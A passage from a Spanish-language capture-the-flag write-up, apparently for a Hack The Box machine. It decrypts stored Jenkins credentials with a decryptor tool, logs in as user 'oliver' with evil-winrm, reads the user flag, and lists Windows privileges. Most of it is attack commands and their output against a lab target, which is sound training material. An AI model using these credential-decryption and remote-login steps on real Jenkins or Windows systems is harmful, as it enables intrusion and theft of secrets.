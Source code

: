 Obtengo las credenciales para el usuario ```oliver```

```null
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```

Gano acceso al sistema por ```winrm```

```null
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\oliver\Documents> 
```

Puedo visualizar la primera flag

```null
*Evil-WinRM* PS C:\Users\oliver\Desktop> type user.txt
55b0221b2f1bc233c2285f2003764cee
```

# Escalada

No tengo ningún privilegio especial

```null
*Evil-WinRM* PS C:\Users\oliver\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
